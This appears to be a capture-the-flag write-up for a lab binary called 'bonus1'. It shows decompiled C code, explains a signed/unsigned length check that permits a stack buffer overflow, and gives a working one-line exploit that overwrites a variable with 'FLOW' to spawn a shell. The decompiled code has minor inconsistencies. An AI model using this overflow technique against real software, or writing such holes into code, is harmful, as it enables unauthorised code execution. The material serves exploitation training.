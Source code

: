 bonus1
======

Dissassembly
------------

The program looks like this:
```c
int	main(int ac, const char **ap)
{
    int		error;
    char	buffer[40];
    int		i;

    i = atoi(av[1]);
    if (i < 10) {
        memcpy(buffer, av[2], (size_t)(i * 4));

        if (i == (int)"FLOW")
            execl("/bin/sh", ["/bin/sh", NULL], NULL);

        error = 0;
    }
    else
        error = 1;

    return error;
}
```

The main function does a signed comparison on the digital value of the second argument, and copies four times as much characters as specified from the first argument into a stack buffer.
A shell is launched if the stack variable i is set to the ascii encoded string `FLOW`.

Exploitation
------------

The buffer is 40 bytes long and the comparison seems to be meant to prevent an overflow. However, since the comparison is signed but treated as unsigned by memcpy, we can use a negative number to pass the first condition and overwrite the variable i.

```sh
./bonus1 "$(bc <<< '11 - (2 ^ 32) / 4')" "$(printf '%.0sA' {1..40})FLOW" <<< whoami
```
```
bonus2
```
